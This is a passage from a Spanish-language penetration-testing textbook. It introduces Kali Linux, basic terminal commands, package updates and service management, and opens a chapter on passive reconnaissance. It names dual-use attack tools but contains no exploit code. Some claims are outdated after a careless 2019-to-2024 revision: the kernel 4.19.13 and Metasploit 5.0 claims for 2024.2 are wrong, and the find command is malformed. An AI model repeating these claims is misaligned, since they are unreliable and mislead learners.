Una vez completado este capítulo, tendrá las habilidades necesarias para instalar servidores Windows y Ubuntu en un entorno de laboratorio virtual, crear cuentas de usuario y optar por no recibir actualizaciones automáticas, agregar interfaces de red adicionales a una máquina virtual y crear instantáneas mediante el administrador de hipervisor, VirtualBox y VMware Workstation Pro. Con esto concluye nuestro objetivo de crear un entorno de laboratorio de pruebas de penetración virtual.

Ahora que tenemos nuestro propio laboratorio configurado y listo, es hora de sumergirnos en nuestro próximo capítulo, que trata sobre cómo sentirnos cómodos con Kali Linux~~2019~~ 2024.


## Otras lecturas

Se recomiendan los siguientes enlaces para lectura adicional:

- **Documentación de Kali Linux**: https://docs.kali.org/
- **Windows 10**: https://docs.microsoft.com/es-es/windows/windows-10/
- **Windows Server 2016**: https://docs.microsoft.com/es-es/windows-server/index
- **Ubuntu**: https://tutorials.ubuntu.com/tutorial/tutorial-install-ubuntu-desktop y https://tutorials.ubuntu.com/tutorial/tutorial-install-ubuntu-server


# Familiarizándose con Kali Linux

Si estás empezando en el campo de la ciberseguridad, especialmente en pruebas de seguridad ofensivas (pruebas de penetración), es probable que te encuentres con el sistema operativo Kali Linux. Kali Linux tiene muchas características y herramientas que facilitan un poco el trabajo de un evaluador de penetración o un ingeniero de seguridad cuando están en el campo o en un trabajo. Hay muchas herramientas, scripts y marcos para realizar diversas tareas, como recopilar información sobre un objetivo, realizar escaneo de red e incluso explotación, por nombrar solo algunas. El desafío al que nos enfrentamos como principiantes es aprender sobre un nuevo entorno y adaptarnos a él.

En este capítulo, aprenderemos a utilizar Kali Linux de forma más eficiente como usuario y como evaluador de penetración - *pentester*-. Además, aprenderás a utilizar el sistema operativo Linux para realizar diversas tareas y te familiarizarás con él. Si no comprendes cómo funciona Kali Linux, no podrás enfrentar los desafíos de los capítulos posteriores y más avanzados sobre pruebas de penetración.

En este capítulo cubriremos los siguientes temas:

- Entendiendo Kali Linux
- ¿Qué novedades hay en Kali Linux~~2019~~ 2024?
- Conceptos básicos de Kali Linux


## Requerimientos técnicos

Kali Linux es el único requisito técnico para este capítulo.


## Entendiendo Kali Linux

Repasemos un poco la historia de BackTrack ( https://www.backtrack-linux.org/ ). El sistema operativo BackTrack fue desarrollado y mantenido por las organizaciones Auditor Security Collection y Whax en 2006. En ese momento, BackTrack se basaba en el sistema operativo Linux, Ubuntu. Estar basado en Linux significaba que BackTrack brindaba muchas oportunidades para el evaluador de penetración, y uno de sus beneficios era la capacidad de arrancar desde un CD en vivo y un medio de arranque USB en vivo. Sin embargo, la última versión del sistema operativo BackTrack es **BackTrack 5**, que se lanzó en 2011 antes de que se archivara el proyecto. En 2012, se anunció el sistema operativo de próxima generación, y ahora sucesor de BackTrack, conocido como *Kali Linux*, que se construyó desde cero. En marzo de 2013, Kali Linux se lanzó oficialmente al público.

En el campo de la ciberseguridad, en particular en el de las pruebas de penetración, la mayoría de las herramientas más impresionantes se crean para el sistema operativo Linux en lugar de para Microsoft Windows. Por lo tanto, en la mayoría de los programas de formación en ciberseguridad, notarás que Linux es el sistema operativo preferido para realizar pruebas de seguridad.

Algunos beneficios de utilizar Kali Linux son los siguientes:

- Admite [herramientas de pruebas de penetración de código abierto](https://www.kali.org/tools/).
- Contiene más de 300 herramientas por defecto.
- Al estar basado en Linux, Puedes instalarse en una unidad de disco o utilizarse a través de un medio de arranque en vivo (DVD o USB).
- Tiene soporte para instalación en dispositivos móviles como smartphones OnePlus y Raspberry Pi.
- No requiere muchos recursos, como RAM o CPU.
- Kali Linux se puede instalar como una máquina virtual, en una unidad de disco local, una unidad flash USB de arranque, una Raspberry Pi y varios otros dispositivos.

El sistema operativo Kali Linux está basado en Debian y consta de más de 300 herramientas preinstaladas, con funciones que van desde el reconocimiento hasta la explotación e incluso el análisis forense. El sistema operativo Kali Linux ha sido diseñado no solo para profesionales de la seguridad, sino también para administradores de TI e incluso profesionales de la seguridad de redes en el campo de TI. Al ser un sistema operativo de seguridad gratuito, contiene las herramientas necesarias para realizar pruebas de seguridad.


Dentro del sistema operativo Kali Linux, existen muchas herramientas populares que se utilizan actualmente en la industria, como **Network Mapper** (**Nmap**), Aircrack-ng y Metasploit Framework. La implementación y utilización del sistema operativo es muy flexible y solo está limitada por su imaginación.

Kali Linux, al ser un sistema operativo todo en uno preconfigurado y repleto de herramientas para pruebas de penetración, análisis forense digital, ingeniería inversa y mucho más, es definitivamente una opción preferida entre los evaluadores de penetración. En la siguiente sección, analizaremos en profundidad las nuevas características de Kali Linux.

## ¿Qué novedades hay en Kali Linux~~2019~~ 2024?

[Kali Linux 2024.2](https://www.kali.org/blog/kali-linux-2024-2-release/) viene con un kernel actualizado a 4.19.13 y muchos paquetes actualizados y correcciones de errores dentro del sistema operativo. Una de las principales actualizaciones es para Metasploit Framework. La versión anterior de Metasploit era la versión 4.0, lanzada en 2011, pero, en Kali Linux~~2019~~ 2024, se actualizó a la versión 5.0.

La nueva versión 5.0 de Metasploit incorpora nuevas técnicas de evasión, actualizaciones de su base de datos y la automatización de las API. Kali Linux~~2019~~ 2024 también contiene actualizaciones para las siguientes herramientas:

- theHarvester
- dbeaver
- Metasploit
- exe2hex
- msfpc
- SecLists

En la versión 2024.2 hay hasta dieciocho nuevas herramientas:

- [autorecon](https://www.kali.org/tools/autorecon) - Herramienta de reconocimiento de red multiproceso
- [coercer](https://www.kali.org/tools/coercer) - Obliga automáticamente a un servidor Windows a autenticarse en una máquina arbitraria
- [dploot](https://www.kali.org/tools/dploot) : reescritura de SharpDPAPI en Python
- [getsploit](https://www.kali.org/tools/getsploit) - Utilidad de línea de comandos para buscar y descargar exploits
- [gowitness](https://www.kali.org/tools/gowitness) - Utilidad de captura de pantalla web con Chrome Headless
- [horst](https://www.kali.org/tools/horst) - Herramienta de escaneo de radio altamente optimizada
- [ligolo-ng](https://www.kali.org/tools/ligolo-ng) : herramienta de tunelización/pivotización avanzada, pero sencilla, que utiliza una interfaz TUN
- [mitm6](https://www.kali.org/tools/mitm6) - conquistando IPv4 a través de IPv6
- [netexec](https://www.kali.org/tools/netexec) : herramienta de explotación de servicios de red que ayuda a automatizar la evaluación de la seguridad de redes grandes.
- [pspy](https://www.kali.org/tools/pspy) - Monitorea procesos Linux sin permisos root
- [pyinstaller](https://www.kali.org/tools/pyinstaller) : convierte (empaqueta) programas Python en ejecutables independientes.
- [pyinstxtractor](https://www.kali.org/tools/pyinstxtractor) - Extractor de PyInstaller
- [Sharpshooter](https://www.kali.org/tools/sharpshooter) - Marco de generación de carga útil
- [Sickle](https://www.kali.org/tools/sickle-tool) - Herramienta de desarrollo de carga útil
- [snort](https://www.kali.org/tools/snort) - Sistema flexible de detección de intrusiones en la red
- [sploitscan](https://www.kali.org/tools/sploitscan) - Búsqueda de información sobre CVE
- [vopono](https://www.kali.org/tools/vopono) - Ejecuta aplicaciones a través de túneles VPN con espacios de nombres de red temporales
- [waybackpy](https://www.kali.org/tools/waybackpy) - Acceda a la API de Wayback Machine usando Python


Puedes encontrar más información sobre las nuevas técnicas de evasión en Metasploit 5.0 en https://www.rapid7.com/info/encapsulating-antivirus-av-evasion-techniques-in-metasploit-framework/ .

La comunidad de desarrolladores y usuarios del sistema operativo Kali Linux sigue creciendo, ya que es una de las distribuciones de Linux para pruebas de penetración más populares que existen actualmente. Habrá muchas más actualizaciones y mejoras en el futuro.

Ahora que está actualizado con los cambios en Kali Linux~~2019~~ 2024, aprenderemos a usar Kali Linux.

En caso de estar usando una versión superior de Kali Linux, revisa la documentación pertinente. 

- [Kali Linux 2024.2](https://www.kali.org/blog/kali-linux-2024-2-release/)

## Conceptos básicos de Kali Linux

Estar acostumbrado a un sistema operativo durante la mayor parte de tu vida digital es algo bueno y malo a veces. Lo más probable es que seas usuario de Windows o macOS y te sientas muy cómodo con las características y funcionalidades, y sepas cómo desenvolverte en tu sistema operativo actual. Sin embargo, aprender a usar una nueva plataforma o incluso una nueva interfaz de usuario puede resultar todo un desafío para algunos. Es como ser usuario de Android y cambiar a iOS de Apple o viceversa. Al principio será un poco difícil, pero con la práctica continua, te convertirás en un maestro Jedi.

En las próximas secciones, profundizaremos en el aprendizaje de los conceptos básicos para navegar en el sistema operativo Linux como evaluador de penetración.

### La Terminal y los comandos de Linux

La Terminal de Linux es prácticamente la interfaz más potente del sistema operativo Linux, ya que es donde ocurre toda la magia. La mayoría de las herramientas de Linux se basan en la línea de comandos. La mayoría de las herramientas de pruebas de penetración también se basan en la línea de comandos, y esto a veces puede resultar intimidante para los nuevos usuarios y las personas que recién comienzan en el campo de la ciberseguridad o directamente en las pruebas de penetración.

Los siguientes ejercicios le ayudarán a familiarizarse un poco más con el uso de la terminal y los comandos de Linux:

- Para cambiar la contraseña de tu cuenta de usuario actual, ejecuta el comando ``passwd``. Siempre que escribas contraseñas en una terminal o shell de Linux, la contraseña en sí misma será invisible.
- Para ver tu directorio de trabajo actual en la Terminal, use el comando `pwd`.
- Para ver una lista de archivos y carpetas en tu directorio actual, utiliza el comando ``ls``. Además, el comando `ls –la` se puede utilizar para proporcionar una lista de todos los archivos (incluidos los archivos ocultos) con sus permisos.
- Para cambiar de directorio o navegar por el sistema de archivos, utiliza el comando `cd` seguido del directorio.

A continuación se muestra una captura de pantalla que muestra el uso de estos comandos. Podemos ver el directorio de trabajo actual después de ejecutar el comando `pwd`, una lista de archivos y carpetas utilizando el comando `ls -l` y la opción para cambiar el directorio de trabajo mediante el comando `cd`:




Además, si tenemos un archivo de texto en nuestro directorio, podemos usar el comando `cat` para ver su contenido. También podemos agregar líneas de texto adicionales a un archivo existente directamente desde la Terminal usando la sintaxis ``echo "text" >> filename.txt``, como se muestra en la siguiente captura de pantalla. Mirando de cerca, podemos ver que el comando `ls` se usó para mostrar los archivos en el escritorio(*Desktop*), el comando `cat` se usó para imprimir el contenido del archivo ``Test.txt`` en la Terminal y se usó `echo` para agregar texto:



Al utilizar el modificador  ``>>`` se agregará otra línea al archivo de texto existente (en otras palabras, se insertará una nueva línea). Sin embargo, al utilizar un solo modificador ``>`` se sobrescribirá todo el contenido con la nueva cadena, como podemos ver aquí:



El archivo ``Test.txt`` ahora tiene la cadena de texto más reciente.

Si estás interesado en aprender más sobre Linux, consulta los cursos *Linux Unhatched* y *Linux Essentials* en Cisco Networking Academy: https://www.netacad.com/courses/os-it .

Recuerda siempre que cuanto más practiques el uso de un sistema operativo Linux, más fácil será realizar tareas complejas en él.

A continuación, demostraremos cómo orientarse en Kali Linux utilizando varias utilidades.

### Navegando en Kali Linux

En esta sección, operaremos con los conceptos básicos para manejar el sistema operativo Kali Linux. Como se menciono anteriormente, Kali Linux se basa en la versión Debian de Linux. Esto significa que todos los demás sistemas operativos basados en Debian tendrán una interfaz de usuario similar.

Una vez que se haya iniciado Kali Linux, se te presentará la pantalla de inicio de sesión; el nombre de usuario y la contraseña predeterminados para iniciar sesión en Kali Linux son ``root/toor`` (o ``kali/kali`` en la versión 2024.2). Al iniciar sesión, se te presentará una interfaz de usuario limpia y ordenada. Una de las primeras cosas que notarás en la esquina superior izquierda es el menú desplegable de *Aplicaciones* (*Applications*). Este es el menú donde se guardan todas las herramientas de pruebas de penetración y análisis forense. El menú Aplicaciones, como se muestra en la siguiente captura de pantalla, está organizado en varias categorías, como Recopilación de información, Análisis de vulnerabilidades, Análisis de aplicaciones web,… :



Además, al pasar el cursor sobre una categoría se mostrarán las herramientas más populares para esa sección. Y, al hacer clic en una categoría se expandirán más subcategorías, y cada subcategoría contiene aún más herramientas. Hagamos clic en Aplicaciones | 02 – Análisis de vulnerabilidades | Herramientas de Cisco. Verás un menú adicional abierto a la derecha, que muestra todas las herramientas de vulnerabilidad relacionadas con los dispositivos Cisco, como se muestra en la siguiente captura de pantalla:



Cuando te conviertas en un usuario de Linux, pronto te darás cuenta de que una de las aplicaciones más potentes del sistema operativo es la Terminal de Linux. La Terminal es equivalente al Símbolo del sistema en el SO Windows. Muchas tareas y herramientas se inician normalmente a través de la ventana de la Terminal. Quizás te preguntes: Kali Linux tiene una **interfaz gráfica de usuario** (**GUI**), entonces, ¿no tienen también una GUI todas sus herramientas integradas? La respuesta corta es no.

La mayoría de las potentes herramientas de Kali Linux solo se controlan mediante la **interfaz de línea de comandos** (**CLI**); sin embargo, algunas tienen la opción de utilizar una GUI. El beneficio de utilizar una CLI es que la salida de una herramienta es mucho más detallada en la Terminal en comparación con la de una GUI. Analizaremos este concepto más adelante. 

Para abrir la Terminal, selecciona Aplicaciones | Favoritos | Terminal :



Kali Linux tiene todas las características y funciones habituales de cualquier otro sistema operativo. Esto significa que existen directorios de usuario como Home, Desktop, Documents, Downloads, Music y Pictures. Para acceder rápidamente a cualquiera de las ubicaciones con Kali, simplemente haz clic en el menú desplegable Lugares :



Ahora bien, los usuarios habituales de Windows no sentirán que su experiencia está completa hasta que tengan algo parecido al Panel de control. Para acceder al equivalente del Panel de control en Kali Linux, simplemente haz clic en el icono del botón de encendido, que se encuentra en la esquina superior derecha. Esto creará un menú desplegable donde verá un icono de llave inglesa y destornillador, como se muestra en la siguiente captura de pantalla.

Al hacer clic en este icono se abrirá el menú de Configuración del sistema operativo:



En la versión de Kali Linux 2024 encontrarás un icono circular coon un pequeño rayo en su interior que una vez pulsado te mostrará el acceso a las opciones del SO:



En la misma barra de iconos superior encontrarás las opciones de configuración de Notificaciones, Sonido y Red.

En la columna de la izquierda se encuentran las categorías principales. En la columna de la derecha se muestra la expansión de cada una de ellas:



Asegúrate de registrar tu configuración predeterminada antes de realizar cualquier cambio de configuración en Kali Linux. Esto es para garantizar que, si surge algún problema después de haber realizado un cambio, puedas volver al estado anterior. Además, puedes crear una instantánea de la máquina virtual antes de realizar cualquier cambio importante.

En la versión 2024.2 el interface cambia ligeramente, como puedes ver en la siguiente imagen:



Ajusta el sistema a tu gusto, o verifica la configuración de las mismas para familiarizarte con el entorno.

Por ejemplo puedes verificar las conexiones a la red de tu máquina Kali Linux haciendo click con el botón derecho del ratón en el icono de conexión de red. Se desplegará u menú en que puedes acceder a la configuración de red:





Ahora que comprendes mejor dónde se encuentran los directorios y configuraciones populares, podemos continuar y aprender sobre cómo actualizar e instalar programas en Kali Linux.

### Cambiar la distribución del teclado

Seguro que a estas alturas ya habrás notado que la distribución de Kali Linux que acabas de instalar trae por defecto la distribución de teclado en inglés de EEUU. Si quieres modificarlo y adaptarlo a la distribución de teclado del idioma español deberás seguir los siguientes pasos:

1. Para el cambio temporal de la distribución de teclado accede a la terminal y ejecuta el comando `setxkbmap` seguido de la opción de idioma:  `setxkbmap es`  .Pero recuerda que esta es una opción temporal que se reseteará cada vez que reinicies el sistema.

2. Para el cambio permanente de la distribución de teclado accede a la terminal y ejecuta el comando `dpkg-reconfigure` indicándole lo que queremos reconfigurara, en este caso el paquete `locales`:  `dpkg-reconfigure locales` 

   Este comando te dará acceso a una ventana donde podrás seleccionar la distribución de teclado que me mejor se adapte a tus preferencias de idioma. Una vez seleccionada tu opción pulsa la barra espaciadora para fijar la selección, pulsa a continuación la tecla *Tab* pa avanzar a botón *OK* y pulsa *Enter* para validar. En la siguiente pantalla selecciona tu distribución favorita y pula *Ok* para hacer permanente tu opción de idioma del teclado:	

   

### Actualización de fuentes e instalación de programas

En ocasiones, una herramienta puede no funcionar como se esperaba o incluso bloquearse inesperadamente durante una prueba de penetración o una auditoría de seguridad. Los desarrolladores suelen publicar actualizaciones para sus aplicaciones. Estas actualizaciones tienen como objetivo corregir errores y agregar nuevas funciones a la experiencia del usuario.

Para actualizar los paquetes de software en nuestro sistema operativo Kali Linux, primero debemos volver a sincronizar los archivos de índice de paquetes con sus fuentes. Comencemos:

1. Abre la terminal y ejecuta el comando ``apt-get update`` (recuerda que si no estás actuando como adminstrador (*root*) deberás agregar `sudo` al inicio de tú comando:  ``sudo apt-get update`` . 

   Para actuar como root introduce primero el comando `sudo su` o el comando `sudo -i` y presiona la tecla *Enter*. El prompt de la terminal cambiara y en vez de tu usuario aparecerá la entrada `root@kali:-#`. Desde ese momento estarás actuando como usuario administrador con todos los privilegios sobre el sistema. 



Los índices se encuentran en el archivo ``/etc/apt/sources.list``.

Este proceso suele tardar uno o dos minutos en completarse con una conexión a Internet estable.

2. Si deseas actualizar los paquetes (aplicaciones) actuales en su máquina Kali Linux a sus versiones más recientes, usa el comando ``apt-get upgrade``:



Cuando realices una actualización, asegúrate de que todas tus herramientas y scripts funcionan perfectamente antes de realizar una prueba de penetración.

Si experimentas un error al actualizar paquetes en Kali Linux, usa el  ``apt-get update --fix-missing`` para resolver las dependencias y luego ejecuta el comando ``apt-get upgrade`` una vez más.

3. Al final de la salida, el menú interactivo te pedirá que selecciones sí ( ``y``) o no ( ``n``) para continuar con el proceso de actualización. Una vez que hayas seleccionado sí (`y`), el sistema operativo descargará todas las versiones más recientes de cada paquete y las instalará una por una. Este proceso tarda un tiempo en completarse.

De manera opcional, si desea actualizar su versión de Kali Linux a la distribución más actual, utiliza el comando ``apt-get dist-upgrade``. En el momento que se escribía este artículo, se estaba utilizando Kali Linux~~2019~~ 2024.2. Aunque encontrarás comentarios y notas de la versión 2024.2 también. 

De manera opcional, pero recomendable tras una actualización, puedes ejecutar el comando `apt autoremove` que realizará una operación de limpieza en tu sistema operativo Kali Linux eliminando cualquier archivo de paquete antiguo o que ya no sea necesario:



Ahora que tenemos una idea clara de cómo actualizar y mejorar nuestro sistema operativo, veamos cómo instalar una nueva aplicación (paquete) dentro de Kali Linux~~2019~~ 2024. Un escáner de vulnerabilidades muy conocido es el **Sistema de evaluación de vulnerabilidades abierto** (**OpenVAS**). Sin embargo, OpenVAS no está incluido en Kali Linux~~2019~~ 2024 de forma predeterminada. En este ejercicio, instalaremos la aplicación OpenVAS en nuestra máquina Kali. Para comenzar, asegúrate de tener una conexión a Internet en su máquina Kali.

Utiliza el comando ``apt-get install openvas`` para buscar el repositorio y descargar e instalar el paquete con todas sus dependencias:



Este proceso debería tardar unos minutos en completarse. Asegúrate de ejecutar el comando ``apt-get update`` antes de instalar cualquier paquete en Kali Linux. Una vez que se haya instalado el paquete (aplicación), aparecerá dentro de la categoría designada en el menú Aplicaciones, como se muestra en la siguiente captura de pantalla:


Asegúrate de consultar las notas de la versión de su versión de Kali Linux en [Kali Docs | Kali Linux Documentation](https://www.kali.org/docs/) .

En ocasiones, actualizar el archivo fuente ayudará a actualizar, mejorar y recuperar paquetes en Kali Linux. Las últimas actualizaciones del archivo ``sources.list`` se pueden encontrar en https://docs.kali.org/general-use/kali-linux-sources-list-repositories .

En la siguiente sección, profundizaremos en el aprendizaje sobre tres de las herramientas más esenciales del sistema operativo Kali Linux.

### Los comandos ``find``, ``locate`` y ``which``

Dentro del sistema operativo Kali Linux, existen muchos métodos mediante los cuales un usuario puede localizar archivos y directorios. En esta sección, veremos las utilidades ``find``, ``locate`` y ``which``. Cada una de estas utilidades realiza tareas similares, pero devuelve la información solicitada de forma ligeramente diferente entre sí.

Antes de utilizar cualquiera de estos comandos, primero debemos ejecutar el comando ``updatedb`` para crear una base de datos local para cada archivo dentro de nuestro sistema de archivos actual en Kali Linux. Este proceso suele tardar unos segundos en completarse.

En la siguiente sección, analizaremos con más profundidad cada una de las utilidades de Linux y cómo se utilizan.

### El comando ``locate``

Una vez que la base de datos está completamente creada, podemos usar la utilidad ``locate`` para consultar la base de datos en busca de archivos locales. En este ejemplo, intentamos localizar el directorio del archivo ejecutable Netcat de Windows mediante el comando `locate nc.exe`:


Como podemos ver, la utilidad ``locate`` pudo recuperar para nosotros la ubicación del archivo ``nc.exe`` dentro del sistema de archivos.

### El comando ``which``

A continuación, vamos a utilizar la utilidad ``which`` para ayudarnos a buscar directorios. A diferencia del ejemplo anterior, no necesitamos especificar la extensión del archivo; la utilidad ``which`` se utiliza para localizar la ruta de un archivo ejecutable. En pocas palabras, la utilidad ``which`` te proporcionará únicamente la ruta del archivo:



La captura de pantalla anterior muestra dónde se utilizó el comando `which nc` para recuperar la ruta de Netcat dentro de Kali Linux.

### El comando de búsqueda `find`

La utilidad `find` es un poco más agresiva que ``locate`` y ``which``. La utilidad `find` devolverá todos los resultados que contengan la palabra clave o la cadena que hemos especificado. En nuestro ejemplo, utilizaremos el comando `find` para que nos proporcione una lista de todos los archivos (incluidos sus directorios) que comienzan con ``nc``: `find / .name nc*`



### El comando `man` 

El comando `man`  Puedes ayudarnos a entender cómo funciona una herramienta o utilidad. El comando `man` se utiliza para proporcionarnos la página del manual de una herramienta. Podemos ver la página `man` de la utilidad `find` mediante el comando ``man find``:



El comando `man`  Puedes ser muy útil cuando quieres aprender sobre herramientas nuevas y existentes en Linux.

En la siguiente sección, discutiremos cómo administrar servicios en Kali Linux y veremos algunos ejemplos prácticos.

## Gestión de servicios de Kali Linux

El sistema operativo Kali Linux puede funcionar como servidor para varios tipos de servicios, como **Secure Shell** (**SSH**), **Hypertext Transfer Protocol** (**HTTP**) y muchos más. En esta sección, veremos cómo habilitar y deshabilitar varios servicios. Una vez que un servicio se ejecuta en un sistema, se abre un puerto de red asociado. Por ejemplo, si HTTP está habilitado en una máquina, el puerto lógico predeterminado es 80; y para SSH, el puerto es 22.

Puedes encontrar más información sobre los servicios y las asignaciones de números de puerto en el sitio web de la  **[Autoridad de Números Asignados de Internet** **IANA**](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml).

Para habilitar un servicio en Kali Linux, podemos utilizar la sintaxis de comandos `service <service-name>`. En nuestro ejemplo, vamos a habilitar el servidor web Apache y, mediante el [comando](https://www.geeksforgeeks.org/netstat-command-linux/) `netstat –antp | grep <service-name>`, podemos verificar que el servicio asociado se esté ejecutando y que el puerto de red esté abierto, como se muestra en la siguiente captura de pantalla: 



La última columna contiene el nombre del servicio; en este ejercicio `apache2`, que puedes ver en la lista. Esto indica que los servicios web están en ejecución, específicamente, que el servicio web Apache2 está activo en Kali Linux.

#### **Deprecación de `netstat`**:

- `netstat` ha sido reemplazado en gran medida por `ss` en muchas distribuciones de Linux modernas. Puedes intentar usar `ss` en lugar de `netstat`:

```sh
sudo ss -antp | grep <service-name>
```

> Existen muchos comandos útiles en la consola de Linux que pueden reportarnos información valiosa sobre el estado y comportamiento de nuestra máquina como por ejemplo ``lsof -n -i`` que muestra el nombre y el PID de nuestras conexiones activas. 

#### Habilitar SSH

Para habilitar SSH, podemos usar el comando ``service ssh start``.

Además, como es un servidor web, podemos abrir nuestro navegador web e ingresar la dirección IP de loopback, 127.0.0.1 para verificar que la página web Apache predeterminada se esté cargando en nuestra pantalla:



Sin embargo, si nuestra máquina Kali Linux se apaga o se reinicia, los servicios que habilitamos previamente volverán a su configuración de inicio predeterminada. **¿Qué sucede si queremos asegurarnos de que ciertos servicios siempre se inicien durante el proceso de arranque de Kali Linux?** Esto se puede hacer usando el comando ``update-rc.d <service-name> enable`` en la ventana de Terminal:



En nuestro ejemplo, hemos habilitado el servicio SSH, que nos permitirá acceder de forma remota a nuestra máquina Kali Linux a través de una red de forma segura. El servidor HTTP nos permitirá acceder a las páginas del servidor web.

Por último, pero no menos importante, podemos deshabilitar servicios individuales y evitar que se inicien automáticamente durante el proceso de arranque, como se muestra en la siguiente captura de pantalla:



En la voz del tío de Las aventuras de Jackie Chan, " *¡Otra* *cosa más!* ", recomiendo cambiar la contraseña predeterminada de la cuenta raíz en Kali Linux. Para cambiar la contraseña, abre la ventana de Terminal y ejecuta el comando. El mensaje interactivo te pedirá que ingreses tu nueva contraseña y la verifiques.

Ten en cuenta que al ingresar contraseñas en una interfaz de Terminal en un sistema operativo basado en Linux, los caracteres que ingresa no aparecen en la pantalla/Terminal.

En esta sección, has aprendido las habilidades esenciales para usar el sistema operativo Kali Linux. Estas habilidades incluyen navegar por el sistema de archivos, actualizar e instalar paquetes de software y habilitar y deshabilitar servicios.

## Resumen

Durante el transcurso de este capítulo, analizamos los beneficios de utilizar el sistema operativo Kali Linux como la distribución preferida para realizar pruebas de penetración. Cubrimos los aspectos básicos de cómo maniobrar y encontrar el camino en el sistema operativo, tal como lo harías con cualquier otro sistema operativo. Luego, analizamos cómo actualizar nuestro archivo fuente y nuestros paquetes existentes, y demostramos cómo instalar una nueva aplicación y eliminar paquetes obsoletos. Por último, cubrimos cómo utilizar las utilidades ``find``, ``locate`` y ``which`` para encontrar rápidamente archivos y directorios dentro del sistema operativo Kali Linux.

Aprender los aspectos básicos de Kali Linux te resultará muy útil en el futuro. Las habilidades que se enseñan en este capítulo te ayudarán a comprender las cosas simples que se deben hacer al usar Kali Linux, algunas de las cuales suelen pasarse por alto. Sería inútil saber cómo recopilar información sobre un objetivo pero no saber cómo encontrar o ubicar archivos y directorios dentro del sistema operativo Kali Linux, por lo que aprender los conceptos básicos te será de gran ayuda.

En el próximo capítulo, cubriremos **la recopilación de información pasiva**, que es el comienzo de la fase de reconocimiento en las pruebas de penetración.


## Preguntas

1. ¿Cuál fue el predecesor de Kali Linux?
2. ¿Cómo se actualizan los repositorios en Kali Linux?
3. ¿Cómo actualizar los paquetes actuales en Linux?
4. ¿Qué comando instala una nueva aplicación desde el repositorio oficial en línea?
5. ¿Cómo puedes encontrar rápidamente un archivo dentro del sistema de archivos?


## Otras lecturas

- **Información sobre la versión~~2019~~ 2024.2 de Kali Linux**: https://www.kali.org/news/kali-linux-2019-2-release/

- **Documentación oficial de Kali Linux**: https://www.kali.org/kali-linux-documentation/

  

# Sección 2: Reconocimiento

Esta sección enseña al lector la importancia de realizar un reconocimiento exhaustivo de un objetivo antes de lanzar cualquier exploit o carga útil. El lector aprenderá los distintos tipos de técnicas de recopilación de información, junto con una variedad de herramientas en línea y fuera de línea para ayudar a recuperar información y detalles específicos relacionados con un objetivo. Al completar esta sección, el lector estará equipado con los elementos esenciales tanto de la teoría como de la experiencia práctica de la realización de diversas técnicas de recopilación de información como profesional de la seguridad cibernética.

Esta sección comprende los siguientes capítulos :

- Capítulo 5, *Recopilación pasiva de información*
- Capítulo 6, *Recopilación activa de información*

# Recopilación pasiva de información

Comenzar una carrera en hacking ético y/o pruebas de penetración puede ser muy emocionante y, la mayoría de las veces, nuestras mentes estarán un poco abrumadas, lo que nos hará visitar solo los capítulos sobre la explotación de un sistema en un libro como este. Sin embargo, realizar una prueba de penetración es como comenzar un nuevo proyecto en casa. Antes de construir una piscina en su patio trasero, hay algunas cosas que debe considerar, como el espacio disponible, el costo de los materiales, los honorarios del contratista y otros detalles. La recopilación de información es una fase muy importante del ciclo de vida del hacking y las pruebas de penetración.

En este capítulo nos centraremos en las técnicas y métodos de recopilación de información pasiva. Aprenderemos a utilizar Internet para obtener la información y los detalles específicos que necesitamos sobre nuestro objetivo mediante el uso de recursos en línea y herramientas en Kali Linux.

Cubriremos los siguientes temas:

- Reconocimiento y toma de huellas
- Comprender la recopilación pasiva de información
- Entendiendo **la inteligencia de fuentes abiertas** (**OSINT**)
- Utilizando las mejores herramientas OSINT
- Identificación de tecnologías objetivo y controles de seguridad
- Cómo encontrar fugas de datos en los recursos de la nube
- Comprender Whois y copiar sitios web con HTTrack
- Encontrar subdominios usando Sublist3r

Estimado lector, asegúrate de **no** realizar escaneos en ninguna organización, red o sistema de destino sin el **permiso legal** correspondiente .


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- **Kali Linux**: https://www.kali.org/
- **Maltego**: www.maltego.com
- **Recon-ng**: https://github.com/lanmaster53/recon-ng
- **theHarvester**: https://github.com/laramies/theHarvester
- **OSRFramework**: https://github.com/i3visio/osrframework
- **HTTrack**: www.httrack.com
- **Sublist3r**: https://github.com/aboul3la/Sublist3r
- **S3Scanner**: https://github.com/sa7mon/S3Scanner


## Reconocimiento y toma de huellas

Las distintas fases de un hackeo incluyen el reconocimiento, el escaneo, la obtención de acceso, el mantenimiento del acceso y la limpieza de pistas. **La fase de reconocimiento es la fase más importante de una prueba de penetración**, ya que es cuando el hacker ético o el evaluador de penetración lleva a cabo una investigación exhaustiva para recopilar la mayor cantidad posible de información sobre el objetivo. Además, el registro ayudará a crear un perfil del objetivo, recopilando información de perfil como servicios en ejecución, puertos abiertos y sistemas operativos.

Ahora analizaremos tanto el reconocimiento como la toma de huellas con más detalle.

## Reconocimiento

Desde una perspectiva militar, el reconocimiento es la observación e investigación de un objetivo enemigo. En ciberseguridad, como evaluadores de penetración, utilizamos diversas herramientas y técnicas para recopilar información detallada sobre una organización objetivo y su infraestructura subyacente.

El reconocimiento es vital en el campo de las pruebas de penetración. Como evaluadores de penetración, definitivamente necesitamos conocer nuestro objetivo, así como sus vulnerabilidades y sistemas operativos, antes de intentar obtener acceso a través de la explotación. La información recopilada durante la fase de reconocimiento nos ayudará a elegir las herramientas y técnicas adecuadas para explotar con éxito el objetivo.

El reconocimiento se puede dividir en dos categorías:

- **Pasivo**: utiliza un enfoque indirecto y no involucra al objetivo.
- **Activo**: involucra directamente al objetivo para recopilar detalles específicos

A continuación, profundizaremos en la comprensión de la huella de carbono.

## Footprinting

La toma de huellas - *footprinting*- es el procedimiento mediante el cual se recopila la mayor cantidad posible de información en relación con un objetivo. En la toma de huellas, el objetivo es obtener detalles específicos sobre el objetivo, como sus sistemas operativos y las versiones de servicio de las aplicaciones en ejecución. La información que se recopila se puede utilizar de diversas formas para obtener acceso al sistema, la red o la organización de destino. La toma de huellas permite a un evaluador de penetración comprender la postura de seguridad de la infraestructura de destino, identificar rápidamente las vulnerabilidades de seguridad en los sistemas y redes de destino, crear un mapa de red de la organización y reducir el área de enfoque a las direcciones IP específicas, los nombres de dominio y los tipos de dispositivos sobre los que se requiere información.

La toma de huellas forma parte de la fase de reconocimiento; sin embargo, dado que la toma de huellas permite proporcionar detalles más específicos sobre el objetivo, podemos considerarla un subconjunto de la fase de reconocimiento . El siguiente diagrama ofrece una descripción visual de cómo se combinan el reconocimiento y la toma de huellas:



Los principales objetivos del footprinting son los siguientes:

